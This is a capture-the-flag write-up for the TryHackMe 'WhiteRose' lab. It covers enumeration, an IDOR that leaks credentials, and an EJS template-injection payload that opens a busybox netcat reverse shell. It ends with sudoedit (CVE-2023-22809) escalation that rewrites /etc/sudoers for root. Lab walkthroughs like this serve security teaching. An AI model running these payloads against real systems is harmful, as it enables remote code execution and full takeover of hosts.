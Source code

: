 ```yaml
---
title: WhiteRose
published: 2024-12-01
description: 'This challenge is based on the Mr. Robot episode "409 Conflict". Contains spoilers!'
image: ''
tags: ['Web',"ESJ","Sudoedit CVE", "PrivSec" ,"Server side template injection RCE"]
category: 'THM'
draft: false 
---
```


## Enumeration

- lets try scanning this web app
```sh
➜ nmap -sVC cyprusbank.thm 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-21 02:53 EST
Nmap scan report for cyprusbank.thm (10.10.231.114)
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:07:96:0d:c4:b6:0c:d6:22:1a:e4:6c:8e:ac:6f:7d (RSA)
|   256 ba:ff:92:3e:0f:03:7e:da:30:ca:e3:52:8d:47:d9:6c (ECDSA)
|_  256 5d:e4:14:39:ca:06:17:47:93:53:86:de:2b:77:09:7d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 470.08 seconds
```

>  - Port 22 :
    22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.7
    (Ubuntu Linux; protocol 2.0)
>  - Port 80 :
    80/tcp open http nginx 1.14.0 (Ubuntu)

Let’s check the HTTP port ( port number 80 ) by going to →
When trying to access Port 80 ( http://whiterose.thm )
We are redirected to a new URL ( http://cyprusbank.thm )

```c
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

10.10.231.114   cyprusbank.thm
```

> Let’s do a Sub-Domain Brute Force ( FFUF )
```sh
➜ ffuf -u http://cyprusbank.thm/ -H "HOST: FUZZ.cyprusbank.thm" -w /usr/share/wordlists/amass/subdomains-top1mil-5000.txt -fw 1    


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cyprusbank.thm/
 :: Wordlist         : FUZZ: /usr/share/wordlists/amass/subdomains-top1mil-5000.txt
 :: Header           : Host: FUZZ.cyprusbank.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 1
________________________________________________

admin                     [Status: 200, Size: 252, Words: 19, Lines: 9, Duration: 99ms]
www                     [Status: 200, Size: 252, Words: 19, Lines: 9, Duration: 99ms]
:: Progress: [5000/5000] :: Job [1/1] :: 37 req/sec :: Duration: [0:00:20] :: Errors: 1 ::
```

> - Now after adding the Sub-Domain entry to /etc/hosts
> - Let’s check the page →

Can we use these credentials → ```Olivia Cortez : olivi8``` on this page ?
Let’s find out ..

## IDOR BUG

   - In the Message section we see the ending URL has a number
   - The vulnerability we can try here is called Insecure Direct Object Reference **(IDOR)**. This occurs when an application exposes a reference to an internal object (like a database record or file) directly in the URL. If there are no proper access controls or authorization checks, attackers can manipulate these references (in your case, changing the c parameter in the URL) to access resources they’re not authorized to view.

   - In this case , changing ```?c=1, ?c=2, etc.,``` might reveal different messages or records without proper permission checks, allowing unauthorized access to sensitive data. IDOR vulnerabilities are part of the broader Broken Access Control category in the OWASP Top 10.
![IDOR Picture](./WhiteRose-Images/idor.png)

Voila ! We found credentials on ?/c=8 for another User named →
```Gayle Bev```

## Exploitation

> We are able to now access the Settings page as User → Gayle Bev

  -  In the customer settings page there are two entries →
  - Enter a Customer Name & Enter a New Password

> Now keeping in mind that there are a lot of Customer names in the home page i tried entering the Individual Name and tried entering a New Password ,
> so that i can use these credentials to log into to that account ,
> Just like we did earlier , 
> but it doesn’t work that way .

> Time to use our Favourite tool **→ Burp Suite**

  -  Sending the request to Burpsuite as ```user:pass → admin:admin```
  -  User and Password can be set to anything ,
  -  Let’s get our request to Repeater in Burp Suite

![JS Picture](./WhiteRose-Images/js.png)

We found /home/web/app/views/settings.ejs
The file path ```/home/web/app/views/settings.ejs``` likely points to an EJS (Embedded JavaScript) template file used in a **Node.js** or **Express.js** web application.

   - After doing a little research i found a ```EJS SSTI vulnerability``` →
[EJS, Server side template injection RCE (CVE-2022-29078) - writeup](https://eslam.io/posts/ejs-server-side-template-injection-rce/?source=post_page-----972ee9129fe2--------------------------------)

> - in this PoC we are using port 1337 , but for this writeup i will be using port 1234 for the reverse shell , you can continue with the default one if you want .
> - For this case replacing the reverse shell used in ```PoC → nc -e sh IP-address PORT```by that of BusyBox from [revshells.com](https://www.revshells.com/) gave us the reverse shell successfully
```sh
&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc [IP] [PORT] -e sh');s
```
![EJS Picture](./WhiteRose-Images/ejs.png)

We then checked the terminal and confirmed that we received a connection back as the user “web.” The next step was to stabilize the shell.
```sh
➜  CTF-Writeups nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.21.102.133] from (UNKNOWN) [10.10.0.0] 54174
python3 -c "import pty; pty.spawn(\"/bin/bash\")"
web@cyprusbank:~/app$ export TERM=xterm
export TERM=xterm
web@cyprusbank:~/app$ ^Z
[1]  + 8530 suspended  nc -lnvp 1337
➜  CTF-Writeups stty raw -echo; fg
[1]  + 8530 continued  nc -lnvp 1337
web@cyprusbank:~/app$
```
## Privilege Escalation
- We begin by listing the available sudo privileges for the current user using the ```sudo -l``` command. 
- Additionally, we check the version of sudoedit to identify any potential vulnerabilities. 
- Upon inspection, we discover that the sudo version is vulnerable to [CVE-2023-22809](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudoedit-privilege-escalation/?source=post_page-----972ee9129fe2--------------------------------). 
- This vulnerability allows us to bypass restrictions and gain the ability to read or edit any file by manipulating the ```EDITOR variable```.
```sh
web@cyprusbank:~/app$ sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
web@cyprusbank:~/app$ export EDITOR="vim -- /etc/sudoers"
web@cyprusbank:~/app$ sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```
> - Once in vi, press i to enter insert mode and edit the file.
> - Remove the following line from the **/etc/sudoers** file:
> -  ```web ALL=(root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm```
> - Replace the following line:
 ```web ALL=(root) NOPASSWD: ALL```

![Sudo Picture](./WhiteRose-Images/sudo.png)

> - Now, we can run sudo commands without needing to provide the root password. Use ```sudo su``` to switch to the root user.

```sh
sudoedit: --: editing files in a writable directory is not permitted
2 files to edit
sudoedit: /etc/nginx/sites-available/admin.cyprusbank.thm unchanged
web@cyprusbank:~/app$ sudo su
root@cyprusbank:/home/web/app# ls -la
ls -la
total 40
drwx------  6 root root 4096 Apr  4  2024 .
drwxr-xr-x 23 root root 4096 Jul 12  2023 ..
lrwxrwxrwx  1 root root    9 Jul 16  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Jul 16  2023 .cache
-rwxr-xr-x  1 root root  156 Apr  4  2024 clean.sh
drwx------  3 root root 4096 Jul 16  2023 .gnupg
drwxr-xr-x  3 root root 4096 Jul 16  2023 .local
drwxr-xr-x  5 root root 4096 Apr  4  2024 .pm2
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   21 Jul 15  2023 root.txt
```
**GOOD LUCK...**

